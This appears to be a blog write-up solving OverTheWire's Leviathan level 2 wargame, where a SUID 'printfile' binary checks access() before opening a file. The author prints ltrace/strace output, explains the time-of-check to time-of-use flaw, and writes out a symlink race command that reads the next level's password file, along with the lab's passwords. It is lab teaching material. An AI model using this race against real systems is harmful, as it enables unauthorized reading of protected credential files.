 +++
date = 2020-05-04T14:00:00Z
lastmod = 2020-05-04T14:00:00Z
author ="l1ge"
title = "OverTheWire: Leviathan 2 Write-Up"
subtitle = "Write-up for Leviathan level 2 the FUN way"
feature = "image/leviathan_thumb.jpg"
caption = "Screenshot from Leviathan, 2014. Directed by Andrey Zvyagintsev"
tags = ["write-up", "overthewire", "reverse engineering"]
categories = ["write-ups"]

+++

There are plenty of write-ups out there for Leviathan's Level 2.  But none of them solved it the way I did: **the fun way!** - When you miss the very obvious solution but your qwerky way finally work

Let's first access the level

> ssh -p 2223 leviathan2@leviathan.labs.overthewire.org
>
> password: ougahZi8Ta

In the home folder there is an executable named `printfile`. Let's check its permissions

```bash
$ ls -l
total 8
-r-sr-x--- 1 leviathan3 leviathan2 7436 Aug 26  2019 printfile
```

It has the SUID bit (s), which means we can run it with the permissions of its owner leviathan3
Great! so let's try to print leviathan3 password

```bash
$ ./printfile /etc/leviathan_pass/leviathan3
You cant have that file...
```

That would have been too easy. For some reason `printfile` doesn't allow us to access a file owned by leviathan3 despite the SUID bit. Let's investigate the binary with the command `ltrace`

```bash
$ ltrace ./printfile /etc/leviathan_pass/leviathan3
__libc_start_main(0x804852b, 2, 0xffffd764, 0x8048610 <unfinished ...>
access("/etc/leviathan_pass/leviathan3", 4)                         = -1
puts("You cant have that file..."You cant have that file...
)                                  = 27
+++ exited (status 1) +++
```

I also tried `strace` to check the system calls

```bash
$ strace ./printfile /etc/leviathan_pass/leviathan3
execve("./printfile", ["./printfile", "/etc/leviathan_pass/leviathan3"], [/* 17 vars */]) = 0
strace: [ Process PID=32706 runs in 32 bit mode. ]
brk(NULL)                               = 0x804b000
fcntl64(0, F_GETFD)                     = 0
fcntl64(1, F_GETFD)                     = 0
fcntl64(2, F_GETFD)                     = 0
access("/etc/suid-debug", F_OK)         = -1 ENOENT (No such file or directory)
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
mmap2(NULL, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xf7fd2000
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
open("/etc/ld.so.cache", O_RDONLY|O_CLOEXEC) = 3
fstat64(3, {st_mode=S_IFREG|0644, st_size=36357, ...}) = 0
mmap2(NULL, 36357, PROT_READ, MAP_PRIVATE, 3, 0) = 0xf7fc9000
close(3)                                = 0
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib32/libc.so.6", O_RDONLY|O_CLOEXEC) = 3
read(3, "\177ELF\1\1\1\3\0\0\0\0\0\0\0\0\3\0\3\0\1\0\0\0\0\204\1\0004\0\0\0"..., 512) = 512
fstat64(3, {st_mode=S_IFREG|0755, st_size=1787812, ...}) = 0
mmap2(NULL, 1796604, PROT_READ|PROT_EXEC, MAP_PRIVATE|MAP_DENYWRITE, 3, 0) = 0xf7e12000
mmap2(0xf7fc3000, 12288, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_DENYWRITE, 3, 0x1b0000) = 0xf7fc3000
mmap2(0xf7fc6000, 10748, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_FIXED|MAP_ANONYMOUS, -1, 0) = 0xf7fc6000
close(3)                                = 0
mmap2(NULL, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xf7e10000
set_thread_area({entry_number:-1, base_addr:0xf7e10700, limit:1048575, seg_32bit:1, contents:0, read_exec_only:0, limit_in_pages:1, seg_not_present:0, useable:1}) = 0 (entry_number:12)
mprotect(0xf7fc3000, 8192, PROT_READ)   = 0
mprotect(0x8049000, 4096, PROT_READ)    = 0
mprotect(0xf7ffc000, 4096, PROT_READ)   = 0
munmap(0xf7fc9000, 36357)               = 0
access("/etc/leviathan_pass/leviathan3", R_OK) = -1 EACCES (Permission denied)
fstat64(1, {st_mode=S_IFCHR|0620, st_rdev=makedev(136, 7), ...}) = 0
brk(NULL)                               = 0x804b000
brk(0x806c000)                          = 0x806c000
write(1, "You cant have that file...\n", 27You cant have that file...
) = 27
exit_group(1)                           = ?
+++ exited with 1 +++
```

To be honest, I don't understand what most of this means, but one line is pretty straightforward :

```bash
access("/etc/leviathan_pass/leviathan3", R_OK) = -1 EACCES (Permission denied)
```

There is an *access()* function that checks if I can access the file. Let's investigate how that function works.
From this [link](https://linux.die.net/man/2/access) I get a few interesting informations:

> The check is done using the calling process's real UID and GID, rather than the effective IDs as is done when actually attempting an operation (e.g., open(2)) on the file. This allows set-user-ID programs to easily determine the invoking user's authority.

OK now I understand why, despite the SUID bit on the `printfile`, I can't access the password file.
I keep reading and stumble upon a serious lead :

> **Warning**: Using access() to check if a user is authorized to, for example, open a file before actually doing so using open(2) creates a security hole, because the user might exploit the short time interval between checking and opening the file to manipulate it. For this reason, the use of this system call should be avoided.

I like that!
I decide to Google more and I discovered that this kind of vulnerabilities was called **TOCTOU** (Time-of-check to time-of-use) and was mostly abused using symlinks.

The idea is to modify the file between the moment it gets checked for permissions and the moment it gets opened. This is done by creating a symlink on the file, targeting the real file we wanna access. But this happens so fast, how can I do that ?

That's when it becomes fun. I could have made a script but in the intro of the Leviathan's series, its said you don't need to write scripts to solve any of the level.

Instead I did it... manually.

I used `tmux` to be able to launch two commands simultaneously. You can also use `screen`

```bash
$watch -n 0.1 "touch /tmp/l1ge/lev3; ln -sf /etc/leviathan_pass/leviathan3 /tmp/l1ge/lev3; rm /tmp/l1ge/lev3"
```

This command runs every 0.1 seconds with`watch -n 0.1`

-  `touch /tmp/l1ge/lev3` - creates a file *lev3*
- `ln -sf /etc/leviathan_pass/leviathan3 /tmp/l1ge/lev3`  - Creates a symlink on *lev3* targetting leviathan3's password file
-  `rm /tmp/l1ge/lev3` - Deletes *lev3*

To sum up, every 0.1 seconds it creates a file with permissions that can pass the *access()* function, symlinks it to the file we really wanna access, deletes it and start all over again.  

My plan is to run `./printfile` on my *lev3* file repeatedly until it magically sync up perfectly and the symlink happens right between *access()* reads the permissions and it gets passed to `cat` to print its content.

And to do that without a script, I'll use my fingers

I fire-up another `tmux` window and here I go, hitting UP ARROW and ENTER as fast I can to execute randomly the command on repeat.

```bash
$ ./printfile /tmp/l1ge/lev3
```

...until I hope the password magically appears. When you find yourself doing something so stupid on a CTF,  a strong inner voice tells you to give up and never touch a computer again.

BUT in less than 1mn the magic happened, that's fast enough to bypass my own pessimism.

![](/image/leviathan2.jpg)

Our password is  **Ahdiemoo1j**

There is of course a most reliable way to solve this level and you can check the other write-ups about it.

Hope you enjoyed!

Cheers,
l1ge.
